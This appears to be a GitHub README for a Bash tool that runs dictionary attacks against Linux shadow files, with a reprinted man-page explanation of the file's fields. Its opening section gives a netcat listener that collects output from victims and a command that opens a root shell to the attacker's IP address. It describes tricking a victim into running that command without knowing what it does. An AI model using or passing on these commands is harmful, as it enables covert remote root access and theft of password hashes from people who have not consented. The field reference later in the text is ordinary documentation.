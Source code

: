 # Shadow_Dictionary
A quick Bash script that can perform a dictionary attack against a shadow file to find passwords

# How do we get a shadow file?
A simple way could be a basic netcat attack. Though this approach is not likely to work in the real world, and you should only play around with this idea in a network you own or have permission to.
## Attacker
Setting up the attack is as simple as running this command on your machine:
```
while true; do nc -l -p 5000 < netcat_attack.sh >> victims.txt; done
```
## Victim
Here is where this sort of attack becomes impractical in the real world. We need to get your victim to run this command on their machine somehow without them knowing what it does.
```
sudo nc 192.168.2.250 5000 -e /bin/sh
```

# What is a shadow file?
## From the man page for shadow
shadow is a file which contains the password information for the system's accounts and optional aging information.
This file must not be readable by regular users if password security is to be maintained.
Each line of this file contains 9 fields, separated by colons (“:”), in the following order:

1. login name
    * It must be a valid account name, which exist on the system.
  
2. encrypted password
    * Refer to crypt(3) for details on how this string is interpreted.
    * If the password field contains some string that is not a valid result of crypt(3), for instance ! or *, the user will not be         able to use a unix password to log in (but the user may log in the system by other means).
    * This field may be empty, in which case no passwords are required to authenticate as the specified login name. However, some applications which read the /etc/shadow file may decide not to permit any access at all if the password field is empty.
    * A password field which starts with an exclamation mark means that the password is locked. The remaining characters on the line represent the password field before the password was locked.

3. date of last password change
    * The date of the last password change, expressed as the number of days since Jan 1, 1970.
    * The value 0 has a special meaning, which is that the user should change her password the next time she will log in the system.
    * An empty field means that password aging features are disabled.

4. minimum password age
    * The minimum password age is the number of days the user will have to wait before she will be allowed to change her password again.
    * An empty field and value 0 mean that there are no minimum password age.

5. maximum password age
    * The maximum password age is the number of days after which the user will have to change her password.
    * After this number of days is elapsed, the password may still be valid. The user should be asked to change her password the next time she will log in.
    * An empty field means that there are no maximum password age, no password warning period, and no password inactivity period (see below).
    * If the maximum password age is lower than the minimum password age, the user cannot change her password.

6. password warning period
    * The number of days before a password is going to expire (see the maximum password age above) during which the user should be warned.
    * An empty field and value 0 mean that there are no password warning period.

7. password inactivity period
    * The number of days after a password has expired (see the maximum password age above) during which the password should still be accepted (and the user should update her password during the next login).
    * After expiration of the password and this expiration period is elapsed, no login is possible using the current user's password. The user should contact her administrator.
    * An empty field means that there are no enforcement of an inactivity period.

8. account expiration date
    * The date of expiration of the account, expressed as the number of days since Jan 1, 1970.
    * Note that an account expiration differs from a password expiration. In case of an account expiration, the user shall not be allowed to login. In case of a password expiration, the user is not allowed to login using her password.
    * An empty field means that the account will never expire.
    * The value 0 should not be used as it is interpreted as either an account with no expiration, or as an expiration on Jan 1, 1970.

9. reserved field
    * This field is reserved for future use.
